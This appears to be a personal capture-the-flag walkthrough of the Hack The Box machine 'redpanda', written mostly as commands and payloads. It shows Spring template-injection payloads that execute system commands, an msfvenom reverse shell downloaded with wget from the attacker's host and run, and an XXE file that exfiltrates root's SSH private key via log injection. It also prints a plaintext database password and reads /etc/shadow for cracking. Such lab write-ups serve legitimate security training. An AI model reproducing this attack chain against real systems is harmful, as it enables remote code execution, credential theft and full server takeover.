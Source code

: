 `sudo nmap -p22,8080 -sSCV -O -A -oA nmap_scan 10.10.11.170`

trying a simple SSTI injection in the search bar with `${{<%[%'"}}%\` it appeared there were some banned characters.
trying `#{7*7}` it returned ??49_en_US??, indicating it is a legacy system
`@(6+5)` returned @?11


`@{3*3}` returned puerly 9 and so did `*{3*3}`

`*{T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}` returned:
Process[pid=27648, exitValue="not exited"]

using the Java script from payloadallthethings:
`*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}` worked

using [this](https://www.browserling.com/tools/text-to-ascii) website, I created commands wihch I then ran

`*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}`
--> returns I am currently the woodenk user

 *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(117).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97))).getInputStream())}
 --> Linux redpanda 5.4.0-121-generic #137-Ubuntu SMP Wed Jun 15 13:33:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 
 
Because of how timeconsuming writing and filling in the payloads would be manually, I created a quick script _payloadscript.py_

To get a shell:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.145 LPORT=9999 -f elf > shell1.elf`
`python payloadscript.py "wget http://10.10.14.145:8000/shell1.elf -O notevil1.elf"`
set up a python server + executed the outputted payoload in search bar
`python payloadscript.py "chmod +x notevil1.elf"`
`python payloadscript.py "./notevil1.elf"`
The final command spawned a shell on my listener, which I upgraded using `python3 -c 'import pty; pty.spawn("/bin/bash")'`


Here I got the flag.
(upgraded shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`)


# Foothold 
There is a tets_creds.xml file which appears to contain details about how a file is replaced?:
```xml
<?xml version="1.0"?>
<!DOCTYPE replacec [<!ENTITY ent SYSTEM 'file:///root/.ssh/id_rsa'>]>
<credits>
<author>woodenk</author>
<image>
<uri>/../../../../../../../home/woodenk/smile.jpg</uri>
<hello>&ent;</hello>
<views>0</views>
</image>
<totalviews>0</totalviews>
```
^ id_rsa stored in smile.jpg?


 Next:
 look through /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/
[this](https://portswigger.net/web-security/xxe/xml-entities) should be useful!
 
 
 
 
 ```Bash
 root         866  0.0  0.2   9420  4536 ?        S    17:19   0:00          _ sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar 
 ```


--> in the jar file I found mysql credentials, and could access the database using:
```Bash
mysql -u woodenk -P 3306 -p
```
--> with the password _RedPandazRule_ which also turned out to be the password to the linux machine




################# The Privesc:
Logs group --> panda is part of
looking for files which this group has permission to: redpanda.log
Reading through /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java and doing a quick search for logs `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/` I found the interesting file App.java i LogParser:
--> only .jpg files are accepted
--> the full path of `/opt/panda_search/src/main/resources/static + uri` must be used
--> a tag name of "Artist"
--> `String[] strings = line.split("\\|\\|");`
--> this shows how the xml and image files are stored in the credits folder, and if the file is an image (true) then everything is written to a redpanda.log file.

POA:
1. create an xml file with the contents similar to test_creds.xml
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [
  <!ELEMENT replace ANY >
  <!ENTITY example SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>test</author>
  <image>
    <replace>&example;</replace>
    <uri>/../../../../../../home/woodenk/image.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>2</totalviews>
</credits>
```
2. get any jpg file, and use xiftool to set the artist user agent to that of the xml file, using the directory which we have write permission to and where the image + xml file will be stored:
`exiftool -Artist='../home/woodenk/test' image.jpg`
3. upload both files to _/home/woodenk_ directory
4. curl a request to enter the file in the log:
`curl http://10.10.11.170:8080/stats -A "||/../../../../../../../home/woodenk/image.jpg"`
OR just echo it in: 
`echo "222||a||a||/../../../../../../home/woodenk/image.jpg" > /opt/panda_search/redpanda.log`
(double check it is in the log)
4. wait for a few minutes, and cat the xml file, the contents you asked for should be in the file.
5. saving the id_rsa file, changing the permissions to 400 then connect to box in a root shell:
--> `ssh -i id_rsa root@10.10.11.170`



--> same method used to get contents of _/etc/shadow_ --> which could be cracked as it was $6:






[good writeup](https://shakuganz.com/2022/07/12/hackthebox-redpanda/)

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
